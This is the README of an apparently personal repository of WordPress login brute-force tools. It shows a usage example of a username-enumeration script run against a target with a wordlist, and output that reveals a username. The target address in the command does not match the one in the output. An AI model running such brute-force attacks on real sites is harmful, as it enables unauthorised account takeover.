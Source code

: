 # WordPress Brute Force Suite

A repository of simple tools I've made to brute force `/wp-login.php` \
Tested on WordPress/4.3.33.

### `wpbruteuser.py`
```
$ ./wpbruteuser.py -u http://127.0.0.1 -w /usr/share/wordlists/common.txt
Site....: http://10.0.0.48
Wordlist: /usr/share/wordlists/common.txt
Timeout.: 5
Username -> fred
```

